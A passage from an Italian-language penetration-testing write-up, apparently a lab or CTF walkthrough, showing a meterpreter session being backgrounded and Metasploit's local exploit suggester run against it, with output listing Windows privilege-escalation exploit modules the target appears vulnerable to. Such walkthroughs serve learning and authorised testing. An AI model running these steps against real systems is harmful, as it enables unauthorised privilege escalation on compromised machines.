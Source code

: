  ## **PRIVESC WITH METASPLOIT**

Mettiamo il meterpeter in background e utilizziamo  il seguente modulo postexploitation per vedere cosa possiamo usare per scalre i privilegi

```bash
msf6 post(multi/recon/local_exploit_suggester) > show options 

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available e
                                               xploits


View the full module info with the info, or info -d command.

msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

Abbiamo diversi exploit a cui la macchina sembra vulnerabile:
```bash
 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 3   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 8   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 10  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 11  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 12  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 13  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
 14  exploit/windows/local/adobe_sandbox_adobecollabsync            No                       Cannot reliably check exploitability.
```
